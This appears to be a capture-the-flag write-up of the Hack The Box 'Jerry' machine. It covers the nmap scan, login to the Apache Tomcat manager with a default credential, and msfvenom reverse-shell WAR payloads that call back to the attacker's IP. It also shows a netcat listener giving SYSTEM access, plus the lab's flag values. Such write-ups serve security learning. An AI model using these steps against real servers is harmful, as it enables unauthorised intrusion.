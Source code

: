 # Enumeration

## Nmap scan
```
nmap -sC -sV -Pn jerry.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 01:15 EST
Nmap scan report for jerry.htb (10.129.210.31)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.41 seconds
```

## Feroxbuster


## http - TCP port 8080

access to `http://jerry.htb:8080`

apache tomcat 7.0.88 shows up
![[Pasted image 20230213152928.png]]

There is a login prompt in Manater App

### Trying default password
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

tomcat:s3cret

### Upload file
![[Pasted image 20230214092623.png]]

WAR file can be uploaded?


# Foothold

## Create reverse shell

### Msfvenom
msfvenom is a payload generator.

### Look for the right payload
```
msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell

```

#### Payload 1
java/jsp_shell_reverse_tcp might be suitable for us. 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > revshell.war
```

#### Payload 2
java/meterpreter/reverse_tcp might work too.
```
sfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > revshell2.war
```

## Get shell
![[Pasted image 20230214094400.png]]
- Use Payload 1
- Upload this revshell file in Tomcat
- Setup nc `nc -lnvp 4444 `
- Click on the /revshell

```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

## Get flags
```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


## Sidenote (Trying Payload 2)
I was able to use the second payload, but I could not run whoami command.
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.108.101] 49196
whoami
java.lang.OutOfMemoryError: Java heap space       
```